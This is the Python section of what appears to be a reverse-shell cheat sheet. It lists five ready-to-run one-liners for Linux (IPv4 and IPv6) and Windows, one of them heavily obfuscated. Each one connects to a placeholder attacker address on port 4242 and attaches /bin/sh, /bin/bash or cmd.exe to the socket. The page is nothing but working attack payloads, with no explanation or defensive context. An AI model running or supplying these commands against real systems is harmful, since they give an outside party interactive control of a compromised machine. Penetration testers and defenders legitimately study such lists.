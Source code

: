 ### Python

Linux only

IPv4

```
  export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

IPv4

```
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

IPv6

```
  python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```

```
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Windows only

```
  C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
